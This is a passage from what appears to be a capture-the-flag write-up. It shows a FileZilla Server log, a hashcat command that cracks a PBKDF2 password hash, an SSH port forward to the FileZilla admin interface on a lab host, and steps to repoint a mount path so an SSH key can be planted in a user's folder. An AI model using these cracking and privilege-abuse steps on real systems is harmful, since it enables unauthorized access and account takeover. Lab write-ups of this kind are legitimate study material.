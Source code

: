 ```console
2023-12-17T15:26:50.089Z == [FTP Server] Listening on [::]:21.
2023-12-17T15:26:50.089Z == [Administration Server] Listening on 127.0.0.1:14148.
2023-12-17T15:26:50.089Z == [Administration Server] Listening on [::1]:14148.
2023-12-27T07:28:03.551Z == ===== FileZilla Server 1.8.0 new logging started =====
2023-12-27T07:28:03.551Z == Setting up TLS for the FTP Server
2023-12-27T07:28:03.567Z == SHA1 certificate fingerprint: ad:85:50:b5:08:9e:34:a7:8b:b9:d8:ef:3a:67:66:8c:c3:dc:55:02
2023-12-27T07:28:03.567Z == SHA256 certificate fingerprint: 3e:c7:e7:ef:c6:85:c9:7e:3f:e5:a1:3b:4f:2d:4e:93:2b:e2:f5:27:03:7f:e8:8e:60:e2:ae:4a:16:36:77:09
2023-12-27T07:28:03.567Z == Setting up TLS for the Administration Server
2023-12-27T07:28:03.567Z == SHA256 certificate fingerprint: 72:30:ea:81:80:0f:33:99:cc:70:52:1e:7c:bc:6f:ba:2c:4d:4b:0d:6f:bc:fe:61:7e:e6:c1:06:38:d5:3d:9d
2023-12-27T07:28:03.567Z == [FTP Server] Listening on 0.0.0.0:21.
2023-12-27T07:28:03.567Z == [FTP Server] Listening on [::]:21.
2023-12-27T07:28:03.584Z == [Administration Server] Listening on 127.0.0.1:14148.
2023-12-27T07:28:03.584Z == [Administration Server] Listening on [::1]:14148.
```
So we can try to crack to do the same thing like that :

```console
sha256:100000:AdRNx7rAs1CEM23S5Zp7NyAQYHcuo2LuevU3pAXKB18+6rK3fuFFw:mSbrgj1R6oqMMSk4Qk1TuYTchS5r8Yk3Y5vsBgf2tF8
```

```bash
hashcat -m 10900 -a 0 hash2.txt wordlist.txt -r OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule
```
![alt text](<../assets/image_kaiju/3er 2e cracked pass.png>)

# FileZilla

Ok now we can try to forward port 14148 to access to the ```Administration Server``` of FileZilla

```bash
ssh -L 14148:localhost:14148 backup@10.10.200.182
```
Download ```FileZilla Server``` and in ```Server ---> Configure```, select ```Users, backup``` and there is ```Mount points``` with a ```Native Path``` to E:\Private, we can change this to ```C:\Users\sasrv200``` to put our ssh key because we have ```READ + WRITE``` rights
